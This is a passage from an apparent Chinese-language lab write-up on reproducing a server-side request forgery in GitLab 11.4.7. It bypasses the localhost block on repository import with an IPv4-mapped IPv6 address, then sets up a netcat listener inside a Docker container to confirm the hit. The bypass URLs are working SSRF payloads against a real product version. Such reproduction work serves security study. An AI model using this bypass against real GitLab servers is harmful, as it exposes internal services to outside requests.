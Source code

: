 但是得到的错误是`“Import URL is blocked: Requests to localhost are not allowed”`。

现在，可以尝试使用特殊的`IPv6`地址绕过。如果把导入`URL`替换成下面的。

	http://[0:0:0:0:0:ffff:127.0.0.1]:1234/test/ssrf.git

在使用这个`URL`导入之前，需要一个服务器监听端口1234以确认`SSRF`。为此，可以在`docker`容器上获得一个`root shell`来安装`netcat`，然后监听端口1234以查看是否触发了`SSRF`。首先，继续并列出所有正在运行的`Docker`容器，以了解应该在哪个容器上安装`shell`。

```shell
# get a list of running docker containers
$ docker ps
CONTAINER ID    IMAGE                           COMMAND    CREATED    STATUS    NAMES
bd9daf8c07a6    gitlab/gitlab-ce:11.4.7-ce.0      ...        ...        ...      ...
```

现在只有一个在运行，是`GitLab 11.4.7`。通过指定容器`ID`，可以使用以下命令获得容器上的`shell`。

```shell
$ docker exec -i -t bd9daf8c07a6 "/bin/bash"
```

这里

* `bd9daf8c07a6`是容器`ID`
* `-i` 的意思是与`/bin/bash`的交互
* `-t` 表示创建`tty`
* `-a` 用于交互的伪终端

现在已经有了`shell`，可以安装`netcat`，这样就可以设置一个简单的服务器来侦听传入的`SSRF`请求。

```shell
root@gitlab:~ apt update && apt install -y netcat
```

设置原始`TCP`服务器非常简单，如下命令所示。

```shell
root@gitlab:~ nc -lvp 1234
```

这里

* `-l` 是要告诉`netcat`必须“听”
* `-v` 是详细输出
* `-p` 指定服务器必须绑定的端口号

现在已经完成了`SSRF`测试设置，然后发出相同的导入请求，看看是否可以触发`SSRF`。此外，与在浏览器中指定`web`应用程序的`URL`不同，可以使用`Burp`套件的中继器根据需要快速修改`HTTP`请求并将其发送出去。要做到这一点，可以修改旧的“通过`URL repo`”请求。可以将`URL`更新为：

	http://[0:0:0:0:ffff:127.0.0.1]:1234/test/ssrf

`git`和项目的名称转换到还不存在的地方，然后发送请求。
